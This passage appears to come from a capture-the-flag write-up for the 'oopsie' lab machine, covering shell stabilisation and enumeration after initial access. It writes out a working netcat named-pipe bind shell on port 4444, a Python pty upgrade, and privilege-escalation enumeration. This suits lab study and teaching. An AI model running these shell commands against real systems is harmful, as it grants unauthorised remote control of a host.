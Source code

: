 - `$ su robert`

```bash
su: must be run from a terminal -> su [x]
```

- shell interactive is not very good; need to be improved

  - new a pipe f and set a new listen port service runing a shell

  ```bash
  $ rm /tmp/f;mkfifo /tmp/f
  rm: cannot remove '/tmp/f': No such file or directory
  $ cat /tmp/f|/bin/bash -i 2>&1|nc -l 4444 >/tmp/f
  $ cat /tmp/f|/bin/bash -i 2>&1|nc -l 4444 >/tmp/f
  ```

  - generate a better shell

  ```bash
  #local
  nc $IP 4444
  export TERM=xterm-color
  dpkg -l | grep python
  python3 -c 'import pty;pty.spawn("/bin/bash")'
  ```

- su robert

### robert->root

- robert enumeration

```bash
robert@oopsie:/$ id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
robert@oopsie:/$ sudo -l [x]
[sudo] password for robert:
Sorry, user robert may not run sudo on oopsie.
robert@oopsie:/$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b0:e9:ee brd ff:ff:ff:ff:ff:ff
    inet 10.129.95.191/16 brd 10.129.255.255 scope global ens160
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb0:e9ee/64 scope global dynamic mngtmpaddr
       valid_lft 86393sec preferred_lft 14393sec
    inet6 fe80::250:56ff:feb0:e9ee/64 scope link
       valid_lft forever preferred_lft forever
```

- find groups: robert + bugtracker
